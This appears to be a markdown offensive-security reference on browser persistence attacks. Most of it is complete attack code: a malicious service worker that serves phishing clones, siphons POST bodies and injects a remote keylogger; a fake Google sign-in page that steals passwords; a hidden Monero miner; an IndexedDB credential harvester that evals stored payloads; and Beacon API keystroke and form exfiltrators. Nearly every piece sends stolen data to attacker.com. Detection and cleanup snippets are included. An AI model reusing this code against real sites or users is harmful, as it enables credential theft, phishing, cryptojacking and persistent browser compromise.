


# The Hostile DOM: Deep Dive Technical Reference

::: danger Offensive Security Research
This document provides **exhaustive technical analysis** of browser-based attack vectors. All code examples are for educational and authorized security research purposes only.
:::

## Part 3: Persistence & Background Execution

### 3.1 Service Workers: The Ghost Network

Service Workers represent the **most powerful persistence mechanism** in modern browsers. They operate as programmable network proxies that intercept all HTTP traffic for a domain, survive browser restarts, and function offline.

#### Service Worker Lifecycle & Attack Surface



#### Attack Implementation: Phishing-as-a-Service

::: details Click to expand code
::: code-group
```javascript [main.html - Initial Infection]
<!-- Victim visits compromised page -->
<!DOCTYPE html>
<html>
<head>
  <title>Free PDF Converter</title>
</head>
<body>
  <h1>Online PDF Tools</h1>
  <p>Convert your files instantly!</p>
  
  <script>
    // Silent Service Worker registration
    if ('serviceWorker' in navigator) {
      navigator.serviceWorker.register('/sw.js', {
        scope: '/' // Control the entire origin
      })
      .then(reg => {
        console.log('[+] SW registered:', reg.scope);
        
        // Notify attacker of successful infection
        fetch('https://attacker.com/infected', {
          method: 'POST',
          body: JSON.stringify({
            victim: location.href,
            userAgent: navigator.userAgent,
            timestamp: Date.now()
          })
        });
      })
      .catch(err => console.error('[!] SW registration failed:', err));
    }
  </script>
  
  <!-- Actual PDF converter functionality (decoy) -->
  <input type="file" accept=".pdf">
  <button>Convert</button>
</body>
</html>
```

```javascript [sw.js - The Persistent Malware]
// Service Worker: Runs in background, intercepts all network traffic

const CACHE_NAME = 'legitimate-cache-v1';
const PHISHING_CACHE = 'phishing-pages';

// Installation: Cache malicious resources
self.addEventListener('install', event => {
  event.waitUntil(
    caches.open(PHISHING_CACHE).then(cache => {
      // Pre-cache phishing pages for offline use
      return cache.addAll([
        '/phishing/google-login.html',
        '/phishing/microsoft-login.html',
        '/phishing/bank-login.html',
        '/phishing/assets/logo.png'
      ]);
    })
  );
  
  // Activate immediately, don't wait for tabs to close
  self.skipWaiting();
});

// Activation: Take control of all pages
self.addEventListener('activate', event => {
  event.waitUntil(self.clients.claim());
  console.log('[SW] Now controlling all pages');
});

// Fetch: Intercept EVERY network request
self.addEventListener('fetch', event => {
  const url = new URL(event.request.url);
  
  // Attack 1: Redirect login pages to phishing clones
  if (url.pathname.includes('/login') || 
      url.pathname.includes('/signin') ||
      url.pathname.includes('/auth')) {
    
    event.respondWith(
      caches.match('/phishing/google-login.html')
        .then(response => {
          if (response) {
            console.log('[SW] Serving phishing page for:', url.href);
            return response;
          }
          // Fallback to network if cache miss
          return fetch(event.request);
        })
    );
    return;
  }
  
  // Attack 2: Exfiltrate all POST requests (credentials)
  if (event.request.method === 'POST') {
    event.respondWith(
      (async () => {
        // Clone request to read body without consuming it
        const requestClone = event.request.clone();
        const body = await requestClone.text();
        
        // Exfiltrate credentials
        fetch('https://attacker.com/harvest', {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({
            url: event.request.url,
            body: body,
            headers: [...event.request.headers.entries()],
            timestamp: Date.now()
          })
        }).catch(() => {
          // If offline, queue for background sync
          return self.registration.sync.register('exfiltrate-queue');
        });
        
        // Forward original request to avoid suspicion
        return fetch(event.request);
      })()
    );
    return;
  }
  
  // Attack 3: Inject malicious scripts into HTML responses
  if (event.request.destination === 'document') {
    event.respondWith(
      fetch(event.request)
        .then(response => {
          // Only inject if HTML
          const contentType = response.headers.get('content-type');
          if (!contentType || !contentType.includes('text/html')) {
            return response;
          }
          
          // Clone response to modify
          return response.text().then(html => {
            // Inject keylogger before </body>
            const injected = html.replace(
              '</body>',
              `<script src="https://attacker.com/keylogger.js"></script></body>`
            );
            
            return new Response(injected, {
              status: response.status,
              statusText: response.statusText,
              headers: response.headers
            });
          });
        })
    );
    return;
  }
  
  // Default: Pass through
  event.respondWith(fetch(event.request));
});

// Attack 4: Background Sync (execute when online)
self.addEventListener('sync', event => {
  if (event.tag === 'exfiltrate-queue') {
    event.waitUntil(
      // Retrieve queued data from IndexedDB
      getQueuedData().then(data => {
        return fetch('https://attacker.com/harvest', {
          method: 'POST',
          body: JSON.stringify(data)
        });
      })
    );
  }
});

// Attack 5: Push Notifications (phishing alerts)
self.addEventListener('push', event => {
  const data = event.data.json();
  
  event.waitUntil(
    self.registration.showNotification(data.title, {
      body: data.body,
      icon: '/phishing/assets/bank-logo.png',
      badge: '/phishing/assets/badge.png',
      data: {
        url: 'https://phishing-site.com/urgent-login'
      }
    })
  );
});

// Handle notification clicks
self.addEventListener('notificationclick', event => {
  event.notification.close();
  
  // Open phishing page
  event.waitUntil(
    clients.openWindow(event.notification.data.url)
  );
});
```

```javascript [phishing/google-login.html - Cached Clone]
<!-- Served from Service Worker cache, never hits real server -->
<!DOCTYPE html>
<html>
<head>
  <title>Sign in - Google Accounts</title>
  <style>
    /* Pixel-perfect clone of Google login */
    body { font-family: 'Roboto', Arial; }
    .login-box {
      width: 450px;
      margin: 100px auto;
      padding: 40px;
      box-shadow: 0 2px 10px rgba(0,0,0,0.2);
    }
    /* ... exact Google CSS ... */
  </style>
</head>
<body>
  <div class="login-box">
    
    <h1>Sign in</h1>
    <form id="phishing-form">
      <input type="email" name="email" placeholder="Email" required>
      <input type="password" name="password" placeholder="Password" required>
      <button type="submit">Next</button>
    </form>
  </div>
  
  <script>
    document.getElementById('phishing-form').addEventListener('submit', async (e) => {
      e.preventDefault();
      
      const email = e.target.email.value;
      const password = e.target.password.value;
      
      // Exfiltrate credentials
      await fetch('https://attacker.com/google-creds', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({
          email,
          password,
          timestamp: Date.now(),
          userAgent: navigator.userAgent
        })
      });
      
      // Redirect to real Google (user sees "wrong password" error)
      window.location.href = `https://accounts.google.com/signin?Email=${email}`;
    });
  </script>
</body>
</html>
```
:::

#### Service Worker Persistence Analysis

::: danger Critical Persistence Properties

1. **Survives Tab Closure**: SW runs independently of any page
2. **Survives Browser Restart**: Registered SWs auto-activate on browser launch
3. **Survives Cache Clearing**: SW registration is separate from HTTP cache
4. **Offline Functionality**: Can serve content without network access
5. **Background Execution**: Wakes up for push notifications and sync events
6. **No User Indication**: No persistent UI indicator of active SWs
:::

**Removal Difficulty Matrix:**

| User Action | Service Worker Status | Still Active? |
|-------------|----------------------|---------------|
| Close tab | Running | ✅ Yes |
| Close browser | Dormant | ✅ Yes (reactivates on reopen) |
| Clear browsing data | Registered | ✅ Yes (unless "Cookies" selected) |
| Clear cache only | Running | ✅ Yes |
| Uninstall extension | N/A | ✅ Yes (SW is page-based, not extension) |
| **Manual unregister** | Terminated | ❌ No |

#### Detection & Forensics

::: details Click to expand code
::: code-group
```javascript [Client-Side Detection]
// Enumerate all registered Service Workers
navigator.serviceWorker.getRegistrations()
  .then(registrations => {
    if (registrations.length === 0) {
      console.log('[+] No Service Workers registered');
      return;
    }
    
    console.warn(`[!] Found ${registrations.length} Service Worker(s):`);
    
    registrations.forEach((reg, index) => {
      console.log(`\n--- Service Worker #${index + 1} ---`);
      console.log(`  Scope: ${reg.scope}`);
      console.log(`  Active: ${reg.active ? reg.active.scriptURL : 'none'}`);
      console.log(`  Installing: ${reg.installing ? reg.installing.scriptURL : 'none'}`);
      console.log(`  Waiting: ${reg.waiting ? reg.waiting.scriptURL : 'none'}`);
      
      // Check for suspicious scopes
      if (reg.scope === location.origin + '/') {
        console.warn(`  [!] SUSPICIOUS: Controls entire origin`);
      }
      
      // Analyze SW script
      if (reg.active) {
        fetch(reg.active.scriptURL)
          .then(r => r.text())
          .then(code => {
            // Red flags
            const redFlags = [
              /fetch\s*\(\s*['"]https?:\/\/(?!${location.hostname})/, // External fetches
              /addEventListener\s*\(\s*['"]fetch['"]/, // Fetch interception
              /addEventListener\s*\(\s*['"]push['"]/, // Push notifications
              /caches\.open/, // Cache manipulation
              /\.text\(\)\.then/, // Reading response bodies
            ];
            
            redFlags.forEach(flag => {
              if (flag.test(code)) {
                console.warn(`  [!] RED FLAG: ${flag.source}`);
              }
            });
          });
      }
      
      // Option to unregister
      console.log(`  To remove: registrations[${index}].unregister()`);
    });
  });
```

```javascript [Automated Cleanup]
// Force unregister all Service Workers
async function nukeSW() {
  const registrations = await navigator.serviceWorker.getRegistrations();
  
  for (const reg of registrations) {
    console.log(`[*] Unregistering SW: ${reg.scope}`);
    const success = await reg.unregister();
    
    if (success) {
      console.log(`[+] Successfully removed: ${reg.scope}`);
    } else {
      console.error(`[!] Failed to remove: ${reg.scope}`);
    }
  }
  
  // Clear all caches
  const cacheNames = await caches.keys();
  for (const name of cacheNames) {
    console.log(`[*] Deleting cache: ${name}`);
    await caches.delete(name);
  }
  
  console.log('[+] All Service Workers and caches removed');
}

// Execute cleanup
nukeSW();
```
:::

### 3.2 Web Workers: Stealth Background Execution

Web Workers run JavaScript on **separate threads**, keeping the UI responsive while executing malicious payloads invisibly.

#### Worker Types & Attack Vectors



#### Attack: Hidden Cryptominer

::: details Click to expand code
::: code-group
```javascript [main-page.js - Worker Launcher]
// User sees: "Loading chat application..."
// Reality: Launching Monero miner in background

// Create worker from blob (no external file required)
const minerCode = `
  // Import mining library
  importScripts('https://attacker.com/cryptonight.js');
  
  // Mining configuration
  const POOL = 'pool.minexmr.com:4444';
  const WALLET = 'attacker-monero-wallet-address';
  
  // Initialize miner
  const miner = new CryptoNight(POOL, WALLET);
  
  // Listen for commands from main thread
  self.addEventListener('message', (e) => {
    if (e.data.cmd === 'start') {
      // Start mining at specified intensity
      miner.setThrottle(e.data.throttle || 0.5); // 50% CPU by default
      miner.start();
      self.postMessage({ status: 'mining', hashrate: 0 });
    }
    
    if (e.data.cmd === 'stop') {
      miner.stop();
      self.postMessage({ status: 'stopped' });
    }
    
    if (e.data.cmd === 'stats') {
      self.postMessage({
        hashrate: miner.getHashrate(),
        accepted: miner.getAcceptedShares(),
        rejected: miner.getRejectedShares()
      });
    }
  });
  
  // Adaptive throttling (avoid detection via thermal/fan noise)
  setInterval(() => {
    // Reduce mining during user activity
    if (performance.now() - lastUserActivity < 5000) {
      miner.setThrottle(0.8); // 20% CPU when user active
    } else {
      miner.setThrottle(0.3); // 70% CPU when idle
    }
  }, 1000);
  
  let lastUserActivity = performance.now();
  self.addEventListener('message', (e) => {
    if (e.data.activity) {
      lastUserActivity = performance.now();
    }
  });
`;

// Create worker from blob URL
const blob = new Blob([minerCode], { type: 'application/javascript' });
const workerURL = URL.createObjectURL(blob);
const worker = new Worker(workerURL);

// Start mining
worker.postMessage({ cmd: 'start', throttle: 0.5 });

// Monitor activity
['mousemove', 'keydown', 'scroll'].forEach(event => {
  document.addEventListener(event, () => {
    worker.postMessage({ activity: true });
  });
});

// Periodic stats
setInterval(() => {
  worker.postMessage({ cmd: 'stats' });
}, 30000);

worker.addEventListener('message', (e) => {
  if (e.data.hashrate) {
    console.log(`[Miner] Hashrate: ${e.data.hashrate} H/s`);
    
    // Exfiltrate stats
    fetch('https://attacker.com/miner-stats', {
      method: 'POST',
      body: JSON.stringify({
        victim: location.href,
        hashrate: e.data.hashrate,
        shares: e.data.accepted,
        uptime: performance.now()
      })
    });
  }
});

// Cleanup on page unload (saves worker state for next visit)
window.addEventListener('beforeunload', () => {
  worker.postMessage({ cmd: 'stop' });
  localStorage.setItem('minerState', JSON.stringify({
    totalHashes: worker.totalHashes,
    runtime: performance.now()
  }));
});
```

```javascript [Detection via Performance Monitoring]
// Detect hidden workers via CPU usage anomalies

class WorkerDetector {
  constructor() {
    this.baseline = null;
    this.samples = [];
  }
  
  async measureCPU() {
    if (!performance.measureUserAgentSpecificMemory) {
      console.warn('[!] Memory API not available');
      return null;
    }
    
    // Measure JavaScript heap size
    const memory = await performance.measureUserAgentSpecificMemory();
    const jsHeapSize = memory.bytes;
    
    // Measure long tasks (>50ms indicates CPU load)
    const longTasks = performance.getEntriesByType('longtask');
    const recentTasks = longTasks.filter(task => 
      performance.now() - task.startTime < 10000
    );
    
    return {
      heapSize: jsHeapSize,
      longTasks: recentTasks.length,
      timestamp: performance.now()
    };
  }
  
  async detectHiddenWorkers() {
    // Collect baseline (first 5 seconds)
    if (!this.baseline) {
      const sample = await this.measureCPU();
      this.samples.push(sample);
      
      if (this.samples.length >= 5) {
        this.baseline = {
          avgHeap: this.samples.reduce((a, b) => a + b.heapSize, 0) / 5,
          avgTasks: this.samples.reduce((a, b) => a + b.longTasks, 0) / 5
        };
        console.log('[*] Baseline established:', this.baseline);
      }
      return null;
    }
    
    // Compare current metrics to baseline
    const current = await this.measureCPU();
    
    const heapGrowth = (current.heapSize - this.baseline.avgHeap) / this.baseline.avgHeap;
    const taskIncrease = current.longTasks - this.baseline.avgTasks;
    
    // Red flags
    if (heapGrowth > 0.5 || taskIncrease > 10) {
      console.warn(`[!] SUSPICIOUS ACTIVITY DETECTED:
        Heap growth: ${(heapGrowth * 100).toFixed(1)}%
        Long tasks: +${taskIncrease}
        Likely hidden worker or cryptominer
      `);
      
      // Attempt to locate worker
      this.enumerateWorkers();
      
      return true;
    }
    
    return false;
  }
  
  enumerateWorkers() {
    // Workers aren't directly enumerable, but we can detect via:
    
    // 1. Check for Worker constructor calls in stack traces
    const originalWorker = window.Worker;
    const detectedWorkers = [];
    
    window.Worker = function(...args) {
      console.warn('[!] Worker created:', args[0]);
      detectedWorkers.push({
        script: args[0],
        timestamp: Date.now(),
        stack: new Error().stack
      });
      return new originalWorker(...args);
    };
    
    // 2. Monitor network requests from workers
    const originalFetch = window.fetch;
    window.fetch = function(...args) {
      const url = args[0];
      if (url.includes('minexmr') || url.includes('crypto')) {
        console.error('[!] Mining pool connection detected:', url);
      }
      return originalFetch.apply(this, args);
    };
    
    console.log('[*] Worker monitoring active');
    return detectedWorkers;
  }
}

// Run detection
const detector = new WorkerDetector();
setInterval(() => detector.detectHiddenWorkers(), 2000);
```
:::

#### Shared Workers: Cross-Tab Attack Coordination

Shared Workers persist across multiple tabs/windows from the same origin, enabling **cross-tab session hijacking**:

```javascript
// shared-worker.js
const connections = [];

self.addEventListener('connect', (e) => {
  const port = e.ports[0];
  connections.push(port);
  
  console.log(`[SharedWorker] New connection. Total: ${connections.length}`);
  
  port.addEventListener('message', (event) => {
    // Broadcast to all tabs
    if (event.data.type === 'token-stolen') {
      connections.forEach(p => {
        if (p !== port) {
          p.postMessage({
            type: 'use-stolen-token',
            token: event.data.token
          });
        }
      });
    }
  });
  
  port.start();
});
```

Now when one tab steals a token, all other tabs instantly receive it and can use it for requests.

---

### 3.4 IndexedDB: Client-Side Database Persistence

IndexedDB provides **unlimited storage quota** (with user permission) and persists across browser sessions. Unlike localStorage's 5-10MB limit, IndexedDB can store gigabytes of data.

::: danger Attack Advantages
- **No size limits**: Store entire phishing sites, malware payloads, stolen databases
- **Structured storage**: Efficient querying and retrieval
- **Survives cache clearing**: Not affected by "Clear browsing data" unless specifically targeted
- **Asynchronous**: Non-blocking operations won't freeze UI
- **Blob storage**: Can store binary payloads, images, executables
:::

#### Attack Implementation: Persistent Credential Harvester

::: details Click to expand code
::: code-group
```javascript [IndexedDB Credential Storage]
class PersistentCredentialHarvester {
  constructor() {
    this.dbName = 'UserPreferences'; // Innocuous name
    this.storeName = 'settings';
    this.db = null;
  }
  
  // Initialize database
  async init() {
    return new Promise((resolve, reject) => {
      const request = indexedDB.open(this.dbName, 1);
      
      request.onerror = () => reject(request.error);
      request.onsuccess = () => {
        this.db = request.result;
        console.log('[+] IndexedDB initialized');
        resolve(this.db);
      };
      
      request.onupgradeneeded = (event) => {
        const db = event.target.result;
        
        // Create object store with auto-increment key
        if (!db.objectStoreNames.contains(this.storeName)) {
          const objectStore = db.createObjectStore(this.storeName, { 
            keyPath: 'id', 
            autoIncrement: true 
          });
          
          // Create indexes for efficient querying
          objectStore.createIndex('domain', 'domain', { unique: false });
          objectStore.createIndex('timestamp', 'timestamp', { unique: false });
          objectStore.createIndex('type', 'type', { unique: false });
        }
      };
    });
  }
  
  // Store stolen credentials
  async storeCredentials(domain, username, password, extras = {}) {
    const transaction = this.db.transaction([this.storeName], 'readwrite');
    const store = transaction.objectStore(this.storeName);
    
    const credential = {
      domain: domain,
      username: username,
      password: password,
      timestamp: Date.now(),
      type: 'credential',
      userAgent: navigator.userAgent,
      ip: await this.getPublicIP(),
      sessionCookies: this.getAllCookies(),
      localStorage: this.getAllLocalStorage(),
      ...extras
    };
    
    return new Promise((resolve, reject) => {
      const request = store.add(credential);
      request.onsuccess = () => {
        console.log('[+] Credential stored in IndexedDB:', credential.id);
        resolve(request.result);
      };
      request.onerror = () => reject(request.error);
    });
  }
  
  // Retrieve all stored credentials
  async getAllCredentials() {
    const transaction = this.db.transaction([this.storeName], 'readonly');
    const store = transaction.objectStore(this.storeName);
    
    return new Promise((resolve, reject) => {
      const request = store.getAll();
      request.onsuccess = () => resolve(request.result);
      request.onerror = () => reject(request.error);
    });
  }
  
  // Query credentials by domain
  async getCredentialsByDomain(domain) {
    const transaction = this.db.transaction([this.storeName], 'readonly');
    const store = transaction.objectStore(this.storeName);
    const index = store.index('domain');
    
    return new Promise((resolve, reject) => {
      const request = index.getAll(domain);
      request.onsuccess = () => resolve(request.result);
      request.onerror = () => reject(request.error);
    });
  }
  
  // Exfiltrate credentials to attacker server
  async exfiltrateAll() {
    const credentials = await this.getAllCredentials();
    
    if (credentials.length === 0) {
      console.log('[*] No credentials to exfiltrate');
      return;
    }
    
    console.log(`[+] Exfiltrating ${credentials.length} credential sets...`);
    
    try {
      const response = await fetch('https://attacker.com/harvest', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({
          victimId: this.getVictimFingerprint(),
          credentials: credentials,
          exfiltratedAt: Date.now()
        })
      });
      
      if (response.ok) {
        console.log('[+] Exfiltration successful');
        // Optionally clear after successful exfiltration
        // await this.clearAll();
      }
    } catch (error) {
      console.error('[!] Exfiltration failed:', error);
      // Credentials remain in IndexedDB for retry
    }
  }
  
  // Store binary payloads (malware, phishing pages)
  async storeBinaryPayload(name, blob) {
    const transaction = this.db.transaction([this.storeName], 'readwrite');
    const store = transaction.objectStore(this.storeName);
    
    const payload = {
      type: 'binary',
      name: name,
      data: blob,
      size: blob.size,
      mimeType: blob.type,
      timestamp: Date.now()
    };
    
    return new Promise((resolve, reject) => {
      const request = store.add(payload);
      request.onsuccess = () => resolve(request.result);
      request.onerror = () => reject(request.error);
    });
  }
  
  // Retrieve and execute stored payload
  async executeStoredPayload(name) {
    const transaction = this.db.transaction([this.storeName], 'readonly');
    const store = transaction.objectStore(this.storeName);
    
    return new Promise((resolve, reject) => {
      const request = store.getAll();
      request.onsuccess = () => {
        const payload = request.result.find(p => p.name === name && p.type === 'binary');
        
        if (payload) {
          // Convert blob to executable script
          const reader = new FileReader();
          reader.onload = (e) => {
            const scriptText = e.target.result;
            eval(scriptText); // Execute stored malware
            resolve();
          };
          reader.readAsText(payload.data);
        } else {
          reject(new Error('Payload not found'));
        }
      };
      request.onerror = () => reject(request.error);
    });
  }
  
  // Helper: Get all cookies
  getAllCookies() {
    return document.cookie.split(';').map(c => c.trim());
  }
  
  // Helper: Get all localStorage
  getAllLocalStorage() {
    const storage = {};
    for (let i = 0; i < localStorage.length; i++) {
      const key = localStorage.key(i);
      storage[key] = localStorage.getItem(key);
    }
    return storage;
  }
  
  // Helper: Get victim fingerprint
  getVictimFingerprint() {
    return btoa(`${navigator.userAgent}-${screen.width}x${screen.height}`);
  }
  
  // Helper: Get public IP
  async getPublicIP() {
    try {
      const response = await fetch('https://api.ipify.org?format=json');
      const data = await response.json();
      return data.ip;
    } catch {
      return 'unknown';
    }
  }
  
  // Clear all stored data
  async clearAll() {
    const transaction = this.db.transaction([this.storeName], 'readwrite');
    const store = transaction.objectStore(this.storeName);
    
    return new Promise((resolve, reject) => {
      const request = store.clear();
      request.onsuccess = () => {
        console.log('[+] IndexedDB cleared');
        resolve();
      };
      request.onerror = () => reject(request.error);
    });
  }
}

// Initialize harvester
const harvester = new PersistentCredentialHarvester();
await harvester.init();

// Intercept form submissions
document.addEventListener('submit', async (e) => {
  const form = e.target;
  
  // Extract credentials
  const username = form.querySelector('[type="email"], [type="text"], [name*="user"]')?.value;
  const password = form.querySelector('[type="password"]')?.value;
  
  if (username && password) {
    console.log('[+] Credentials captured');
    
    // Store in IndexedDB
    await harvester.storeCredentials(
      window.location.hostname,
      username,
      password,
      {
        formAction: form.action,
        referrer: document.referrer
      }
    );
    
    // Attempt immediate exfiltration
    await harvester.exfiltrateAll();
  }
});

// Periodic exfiltration (every 5 minutes)
setInterval(() => harvester.exfiltrateAll(), 5 * 60 * 1000);
```

```javascript [IndexedDB Query Optimization]
// Advanced querying with cursors for large datasets
class AdvancedCredentialQuery {
  constructor(db) {
    this.db = db;
  }
  
  // Iterate over credentials with cursor
  async iterateCredentials(callback) {
    const transaction = this.db.transaction(['settings'], 'readonly');
    const store = transaction.objectStore('settings');
    const index = store.index('timestamp');
    
    return new Promise((resolve, reject) => {
      const request = index.openCursor(null, 'prev'); // Newest first
      
      request.onsuccess = (event) => {
        const cursor = event.target.result;
        
        if (cursor) {
          callback(cursor.value);
          cursor.continue();
        } else {
          resolve(); // Done iterating
        }
      };
      
      request.onerror = () => reject(request.error);
    });
  }
  
  // Get credentials within time range
  async getCredentialsByTimeRange(startTime, endTime) {
    const transaction = this.db.transaction(['settings'], 'readonly');
    const store = transaction.objectStore('settings');
    const index = store.index('timestamp');
    
    const range = IDBKeyRange.bound(startTime, endTime);
    
    return new Promise((resolve, reject) => {
      const request = index.getAll(range);
      request.onsuccess = () => resolve(request.result);
      request.onerror = () => reject(request.error);
    });
  }
  
  // Batch delete old credentials
  async deleteOlderThan(timestamp) {
    const transaction = this.db.transaction(['settings'], 'readwrite');
    const store = transaction.objectStore('settings');
    const index = store.index('timestamp');
    
    const range = IDBKeyRange.upperBound(timestamp);
    let deleted = 0;
    
    return new Promise((resolve, reject) => {
      const request = index.openCursor(range);
      
      request.onsuccess = (event) => {
        const cursor = event.target.result;
        
        if (cursor) {
          cursor.delete();
          deleted++;
          cursor.continue();
        } else {
          console.log(`[+] Deleted ${deleted} old credentials`);
          resolve(deleted);
        }
      };
      
      request.onerror = () => reject(request.error);
    });
  }
}
```
:::

#### Offline Phishing with IndexedDB

Store entire phishing sites in IndexedDB for offline operation:

```javascript
// Store complete phishing page
async function cachePhishingPage(url) {
  const response = await fetch(url);
  const html = await response.text();
  const blob = new Blob([html], { type: 'text/html' });
  
  await harvester.storeBinaryPayload(`phishing-${url}`, blob);
  console.log('[+] Phishing page cached for offline use');
}

// Serve from IndexedDB when offline
if (!navigator.onLine) {
  const phishingPage = await harvester.getPayload('phishing-google-login');
  document.documentElement.innerHTML = phishingPage;
}
```

### 3.5 Beacon API: Exit-Handler Persistence

The **Beacon API** sends data even when the page is unloading/closing, ensuring no stolen data is lost.

::: warning Key Characteristics
- **Non-blocking**: Doesn't delay page unload
- **Reliable**: Browser guarantees delivery (queues if offline)
- **No CORS preflight**: POST requests don't trigger OPTIONS
- **Size limit**: 64KB per request
- **Cannot read response**: Fire-and-forget only
:::

#### Attack Implementation: Guaranteed Exfiltration

::: details Click to expand code
```javascript
// Exit handler data exfiltration
class BeaconExfiltrator {
  constructor(endpoint) {
    this.endpoint = endpoint;
    this.collectedData = {};
  }
  
  // Collect data throughout session
  collectData(key, value) {
    this.collectedData[key] = value;
  }
  
  // Setup exit handlers
  setupExitHandlers() {
    // Beacon on page unload
    window.addEventListener('beforeunload', () => {
      this.sendBeacon();
    });
    
    // Beacon on page hide (mobile browsers)
    document.addEventListener('visibilitychange', () => {
      if (document.visibilityState === 'hidden') {
        this.sendBeacon();
      }
    });
    
    // Beacon on page freeze (background tab)
    window.addEventListener('pagehide', () => {
      this.sendBeacon();
    });
    
    console.log('[+] Exit handlers installed');
  }
  
  // Send beacon with all collected data
  sendBeacon() {
    const payload = {
      ...this.collectedData,
      exitTime: Date.now(),
      sessionDuration: performance.now(),
      url: location.href,
      referrer: document.referrer
    };
    
    const blob = new Blob([JSON.stringify(payload)], { type: 'application/json' });
    
    // Browser guarantees delivery even if page closes
    const sent = navigator.sendBeacon(this.endpoint, blob);
    
    if (sent) {
      console.log('[+] Beacon sent successfully');
    } else {
      console.warn('[!] Beacon queue full');
    }
    
    return sent;
  }
  
  // Harvest credentials on form submit
  installFormHarvester() {
    document.addEventListener('submit', (e) => {
      const form = e.target;
      const formData = new FormData(form);
      const credentials = {};
      
      for (let [key, value] of formData.entries()) {
        credentials[key] = value;
      }
      
      this.collectData('credentials', credentials);
      
      // Send immediately (don't wait for page close)
      this.sendBeacon();
    });
  }
  
  // Harvest passwords as they're typed
  installKeystrokeLogger() {
    document.addEventListener('input', (e) => {
      if (e.target.type === 'password') {
        const currentPassword = this.collectedData.password || '';
        this.collectData('password', currentPassword + e.target.value);
      }
    });
  }
  
  // Track user behavior
  installBehaviorTracking() {
    // Track mouse movements
    let mousePoints = [];
    document.addEventListener('mousemove', (e) => {
      mousePoints.push({ x: e.clientX, y: e.clientY, t: Date.now() });
      
      // Keep only last 100 points
      if (mousePoints.length > 100) {
        mousePoints = mousePoints.slice(-100);
      }
      
      this.collectData('mouseMovements', mousePoints);
    });
    
    // Track clicks
    let clicks = [];
    document.addEventListener('click', (e) => {
      clicks.push({
        x: e.clientX,
        y: e.clientY,
        target: e.target.tagName,
        timestamp: Date.now()
      });
      
      this.collectData('clicks', clicks);
    });
    
    // Track scroll depth
    window.addEventListener('scroll', () => {
      const scrollPercentage = (window.scrollY / (document.documentElement.scrollHeight - window.innerHeight)) * 100;
      this.collectData('maxScroll', Math.max(this.collectedData.maxScroll || 0, scrollPercentage));
    });
  }
}

// Initialize exfiltrator
const exfiltrator = new BeaconExfiltrator('https://attacker.com/beacon');
exfiltrator.setupExitHandlers();
exfiltrator.installFormHarvester();
exfiltrator.installKeystrokeLogger();
exfiltrator.installBehaviorTracking();

// Periodic beacons (heartbeat)
setInterval(() => {
  exfiltrator.collectData('heartbeat', Date.now());
  exfiltrator.sendBeacon();
}, 30000); // Every 30 seconds
```

#### Beacon API Abuse Scenarios

```javascript
// Scenario 1: Multi-stage exfiltration
class ChunkedBeaconExfiltrator {
  static CHUNK_SIZE = 60 * 1024; // 60KB (under 64KB limit)
  
  static async exfiltrateHugeDataset(data) {
    const jsonStr = JSON.stringify(data);
    const chunks = Math.ceil(jsonStr.length / this.CHUNK_SIZE);
    
    for (let i = 0; i < chunks; i++) {
      const chunk = jsonStr.slice(i * this.CHUNK_SIZE, (i + 1) * this.CHUNK_SIZE);
      const payload = {
        chunkIndex: i,
        totalChunks: chunks,
        data: chunk,
        sessionId: this.getSessionId()
      };
      
      navigator.sendBeacon('https://attacker.com/chunks', JSON.stringify(payload));
    }
    
    console.log(`[+] Exfiltrated ${chunks} chunks via Beacon API`);
  }
  
  static getSessionId() {
    let sessionId = sessionStorage.getItem('beaconSessionId');
    if (!sessionId) {
      sessionId = Math.random().toString(36).substring(7);
      sessionStorage.setItem('beaconSessionId', sessionId);
    }
    return sessionId;
  }
}

